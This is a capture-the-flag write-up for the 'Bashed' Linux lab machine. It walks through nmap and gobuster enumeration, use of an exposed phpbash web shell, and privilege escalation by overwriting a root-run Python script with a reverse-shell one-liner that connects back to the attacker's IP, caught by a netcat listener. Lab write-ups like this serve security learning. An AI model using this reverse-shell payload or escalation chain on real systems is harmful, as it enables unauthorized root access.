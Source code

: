 # Bashed 

Machine Level: Easy 
OS: Linux 

## Scanning 
I ran an nmap scan using the aggressive flag to identify some services. 
```
ajread@aj-ubuntu:~$ nmap -A [REDACTED]
Starting Nmap 7.80 ( https://nmap.org ) at 2023-01-16 21:14 CST
Nmap scan report for [REDACTED]
Host is up (0.19s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.51 seconds
```
## Enumeration 
I conducted some enumeration using gobuster and found that there was an interesing subdirectory on port 80 as ```/dev/phpbash.php```. At the directory, there is a command line for me to use. 
```
www-data@bashed:/var/www/html/dev#
```
The commandline has me as user ```www-data```. 
```
www-data@bashed:/var/www/html/dev# whoami
www-data
www-data@bashed:/var/www/html/dev# id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
## Initial Access
With the command line in the ```phpbash.php```, I was able to navigate to the user home directory and read the user flag.
```
www-data@bashed:/var/www/html/dev# cd /home
www-data@bashed:/home# ls
arrexel
scriptmanager
www-data@bashed:/home# cd arrexel
www-data@bashed:/home/arrexel# ls
user.txt
www-data@bashed:/home/arrexel# wc -c user.txt
33 user.txt
```
## Privilege Escalation 
Going through some normal privilege escalation checks, I wanted to see if I was able to run anything as ```sudo```. It turned out that I was able to run a ```scriptmanager``` with such privileges. 
```
www-data@bashed:/home/arrexel# sudo -l
Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL
```
I found a ```/scripts``` folder that I was able to read the contents of using ```scriptmanager``` permissions. 
```
www-data@bashed:/# sudo -u scriptmanager ls -la /scripts
total 16
drwxrwxr-- 2 scriptmanager scriptmanager 4096 Jun 2 2022 .
drwxr-xr-x 23 root root 4096 Jun 2 2022 ..
-rw-r--r-- 1 scriptmanager scriptmanager 58 Dec 4 2017 test.py
-rw-r--r-- 1 root root 12 Jan 17 15:44 test.txt
```
It looked like ```test.py``` writes to ```test.txt```. 
```
www-data@bashed:/# sudo -u scriptmanager cat /scripts/test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```
Now, I rewrote the ```test.py``` file since it was able to be edited by ```scriptmanager``` but only run by ```root``` because it required the ability to write to a ```test.txt``` file that is owned by ```root```. I changed the file to be a reverse shell in python with a connection back to my local IP and port using ```echo``` and ```tee```. 
```
echo 'socket=__import__("socket");os=__import__("os");pty=__import__("pty");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[LOCAL IP]",9999));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")' | sudo -u scriptmanager tee /scripts/test.py
```
I had some issues setting up the python reverse shell. I had to create one that was a one liner without spaces, found [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python).

I opened a listener on my local machine and waited for the connection to come through. And it did! 
```
ajread@aj-ubuntu:~$ nc -lnvp 9999
Listening on 0.0.0.0 9999
Connection received on [REDACTED] 33616
# id 
id 
uid=0(root) gid=0(root) groups=0(root)
# whoami
whoami
root
```
I was able to read the root flag as well. 
```
wc -c /root/root.txt
33 /root/root.txt
```